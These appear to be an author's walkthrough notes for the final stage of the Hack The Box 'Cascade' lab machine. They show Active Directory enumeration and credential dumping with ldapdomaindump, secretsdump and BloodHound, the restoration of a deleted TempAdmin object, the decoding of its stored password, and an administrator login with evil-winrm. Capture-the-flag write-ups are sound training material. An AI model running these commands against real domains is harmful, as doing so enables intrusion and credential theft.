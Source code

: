 
Now with all the data we can figure that we have to retrieve the password.

If you recall we have the note !!!
```
This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
```

![[Pasted image 20240919031500.png]]

I think we have to recover from AD recycle bin the password let's take the help of google fu and chat gpt

```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```


```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all
```
![[Pasted image 20240919033540.png]]

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

![[Pasted image 20240919035359.png]]


```
Restore-ADObject -Identity f0cc344d-31e0-4866-bceb-a842791ca059 -NewName TempAdmin
```


```
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

![[Pasted image 20240919035738.png]]
```
YmFDVDNyMWFOMDBkbGVz
```

![[Pasted image 20240919035835.png]]
```
baCT3r1aN00dles
```


```
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i 10.10.10.182
```

```
8bb0589a72dd5cdd44b009e07b0d2bdc
```
![[Pasted image 20240919040059.png]]


